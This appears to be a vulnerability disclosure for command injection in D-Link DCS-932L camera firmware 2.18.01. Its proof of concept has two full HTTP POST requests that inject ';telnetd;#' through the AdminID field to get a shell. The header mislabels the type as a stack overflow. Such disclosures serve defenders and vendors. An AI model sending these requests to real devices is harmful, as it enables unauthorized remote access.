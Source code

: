 # D-Link Vulnerability

Vendor:D-Link

Product:DCS932L

Version:2.18.01

Type:Stack Overflow

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability in D-Link router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `alphapd` binary:

In the router's `setSystemWizard、setSystemControl` function, `AdminID` is directly passed by the attacker, so we can control the `AdminID` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

In `setSystemAdmin` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `AdminID`, in `setSystemWizard、setSystemControl`
* visit the `setSystemAdmin`



## PoC

We set `AdminID` as **';telnetd;#** , in `setSystemWizard、setSystemControl`

```http
POST /setSystemWizard HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 443
Origin: http://192.168.1.2
Authorization: Basic YWRtaW46
Connection: close
Referer: http://192.168.1.2/wizsetup.htm
Upgrade-Insecure-Requests: 1

ReplySuccessPage=wizard.htm&ReplyErrorPage=wizard.htm&DateTimeMode=1&TimeZoneIndex=01%28GMT-12%3A00%29&Date=2015-01-01&Time=00%3A02%3A19&f_year=2015&f_month=1&f_date=1&f_hour=0&f_min=2&f_sec=19&IPAddressMode=4&IPAddress=192.168.0.20&SubnetMask=255.255.255.0&DefaultGateway=&PPPoEUserID=&PPPoEPassword=&DNSIPAddress1=&DNSIPAddress2=&DDNSEnable=0&CameraName=DCS-932L&TimeZoneSelect=01%28GMT-12%3A00%29&ConfigSystemWizard=Save&AdminID=';telnetd;#
```

visit the `setSystemAdmin`

```http
POST /setSystemAdmin HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 206
Origin: http://192.168.1.2
Authorization: Basic Jzt0ZWxuZXRkOyM6
Connection: close
Referer: http://192.168.1.2/advanced.htm
Upgrade-Insecure-Requests: 1

ReplySuccessPage=advanced.htm&ReplyErrorPage=errradv.htm&AdminID=admin&UserID1=&UserID2=&UserID3=&UserID4=&UserID5=&UserID6=&UserID7=&UserID8=&AdminPassword=admin&AdminKey=1420070596&ConfigSystemAdmin=Apply
```



## Result

Get a shell!

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>
